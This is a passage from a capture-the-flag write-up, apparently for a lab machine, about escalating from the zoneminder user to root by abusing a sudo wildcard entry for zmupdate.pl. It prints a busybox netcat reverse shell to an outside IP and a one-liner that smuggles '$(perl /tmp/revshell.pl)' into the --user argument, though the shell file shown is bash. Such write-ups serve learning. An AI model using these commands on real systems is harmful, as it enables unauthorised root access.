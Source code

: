 ```shell
zoneminder@surveillance:/usr/share/zoneminder/www$  
```

We can get into the machine and now we can try and see what zoneminder can do, for example what zoneminder can run as sudo, since we remember matthew could not run any commands as sudo. 

```shell
zoneminder@surveillance:~$ sudo -l  

sudo -l  

Matching Defaults entries for zoneminder on surveillance: 

    env_reset, mail_badpass, 

    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, 

    use_pty 

  

User zoneminder may run the following commands on surveillance: 

    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl * 
```

The sudoers entry allows the zoneminder user to run any file in the /usr/bin directory that starts with zm, proceeded by only uppercase or lowercase letters and ends in a .pl extension. The second wild card allows anything to be run after it. 
![vuln](https://i.ibb.co/wSfrLPZ/some-png.webp)
The vulnerability appears to stem from improper input validation or insecure handling of user-supplied input in the zmupdate.pl script. By providing a file directory instead of a valid user parameter, we may be able to inject arbitrary commands into the script's execution flow. 

We can craft a malicious request to the zmupdate.pl script, supplying a file directory as the user parameter. Along with this, attach the password obtained earlier to authenticate the request, making it appear legitimate. As part of the exploit payload, then we may choose to create a reverse shell script and place it in a writable directory, such as /tmp. A reverse shell script allows us to establish a connection from the compromised system back to our machine, effectively providing remote access to the compromised system's command line. 

We then can send the crafted request to the vulnerable zmupdate.pl script, triggering the execution of arbitrary commands, including the creation and execution of the reverse shell script. Once the reverse shell is established, we gain remote access to the compromised system's command line. 

With a reverse shell established, we can interact with the compromised system, execute additional commands, escalate privileges, exfiltrate data, or perform further malicious activities as desired. 
```bash
#!/bin/bash 

busybox nc 10.10.14.35 1234 -e sh 
```

So we need to send the reverse shell onto the target machine and then try and run the zmupdate.pl using a one liner. We are also gonna add the password we found using linpeas earlier. 
```bash
sudo /usr/bin/zmupdate.pl --version=1 --user='$(perl /tmp/revshell.pl)' --pass=ZoneMinderPassword 
```

BusyBox's version of Netcat is often used in scenarios where resources are limited, and a full-featured Netcat installation may not be feasible or necessary. 
![updating](https://i.ibb.co/2hKRKNb/updating-zoneminder.png)

and we are root. 

![root](https://i.ibb.co/QPG5495/root.png)
